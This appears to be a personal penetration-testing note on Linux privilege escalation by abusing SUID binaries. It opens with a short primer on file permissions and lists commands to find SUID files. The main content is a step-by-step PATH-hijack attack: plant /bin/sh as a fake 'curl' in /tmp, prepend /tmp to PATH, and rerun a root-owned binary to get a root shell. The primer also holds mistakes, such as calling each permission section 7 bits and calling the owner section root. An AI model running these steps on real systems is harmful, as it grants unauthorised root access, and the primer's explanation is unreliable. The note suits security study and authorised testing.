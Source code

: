 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Abusing SUID

**Permissions Basics**

Permissions on folders and files are broken up into 4 categories when viewing a listing “ls -la”.

example of the sections broken apart:
- rwx rwx rwx (file,read write execute,read write execute,read write execute)

example of what may be seen in an actual listing:
-rwxr-xr-- (file,read write execute,read execute, read)

The first section indicates if it is a file or a directory “-” or "d".
The second section indicates root privileges “rwx” or Read, Write, Execute
The third section indicates group privileges “rwx” or Read, Write, Execute
The fourth section indicates all other user privileges “rwx” or Read, Write, Execute

Each section is broken into 7 bits.

The first counter (read) is worth 4 bits
The second counter (write) is worth 2 bits
The third counter (execute) is worth 1 bits

ex. “chmod 777 file.sh” gives rwx for all 3 sections of the file permissions

Locating files with SUID Bits

~~~bash
find / -perm -u=s -type f 2> /dev/null
~~~

After locating files/binaries with the SUID Bit enabled, search GTFOBins for additional/potential escalation points

**SUID Binary Copy and Path Replacement**

This can be useful if you find a binary/script that has root privs that is calling other applications (i.e curl, ifconfig, uname)

Start with locating suid bit binaries/scripts

~~~bash
find / -perm -u=s -type f 2> /dev/null
~~~

ex. /usr/bin/menu

When you run manual, you notice that the outputs for each option give you outputs from other binaries (like in the example above).

Echo /bin/sh into a file and name it one of the binary names that is being called from the menu binary/script

~~~bash
echo /bin/sh > /tmp/curl
~~~

chmod the binary with RWX permissions

~~~bash
chmod 777 /tmp/curl
~~~

Add the binary as a $PATH environment variable

~~~bash
export PATH=/tmp:$PATH
~~~

Re-run the menu binary and select the option that has the binary that you just created the file for and you should now have a root shell

![[Pasted image 20230102132213.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
